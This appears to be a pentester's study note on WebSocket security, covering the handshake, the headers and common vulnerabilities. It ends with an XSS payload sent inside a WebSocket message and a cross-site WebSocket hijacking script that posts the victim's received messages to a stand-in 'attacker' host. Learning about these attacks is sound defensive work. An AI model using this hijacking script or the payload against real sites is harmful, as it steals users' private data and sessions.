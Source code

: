 ```yaml
---
title: "WebSockets"
weight: 28
---
```


# WebSockets

WebSocket connections are long-lived HTTP initiations allowing bidirectional messaging. The connection stays open until a message is sent by the client or server. WebSocket is ideal for low-latency and server-triggered messages, such as real-time financial data feeds.

{{< details summary="How are WebSocket connections established?" >}}

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The `wss` protocol establishes a WebSocket over an encrypted TLS connection, while the `ws` protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake via HTTP. The browser sends a WebSocket handshake request like this:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

{{< /details >}}

{{< details summary="Headers" >}}

<summary>Headers</summary>

* The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.

- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.

* The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request. This is use to prevent errors from caching proxies. (It is not like CSRF token...)

- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

{{< /details >}}

{{< details summary="What do WebSocket messages look like?" >}}

WebSocket messages can contain any content or data format

```javascript
ws.send("Peter Wiener");
```

It is common to use json

```json
{"user":"Hal Pline","content":"Hello"}
```

{{< /details >}}

## Manipulating WebSocket connections

[https://portswigger.net/web-security/websockets#manipulating-websocket-connections](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

## WebSockets vulnerabilities

* If inputs are transmitted and processed server-side
  * Server-side attacks (SQLi, XXE, etc.)
* If attacker-controlled data is transmitted via WebSockets to other application users
  * Client-side attacks (XSS, etc.)
    * Example if the content of a message is transmitted to another user (via chat...)
    * `{"message":"<img src=1 onerror='alert(1)'>"}`
* Also blind vulnerabilities

## Cross-site WebSocket hijacking

An attacker can craft a malicious webpage on their domain, initiating a cross-site WebSocket connection to the susceptible application. (As CSRF, the websocket connection mustn't contain CSRF tokens)

* Perform unauthorized actions masquerading as the victim user (like CSRF)
* Retrieve sensitive data that the user can access.
* Waiting for incoming messages to arrive containing sensitive data.

Exploitation code to open a websocket connection to send messages on your server

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
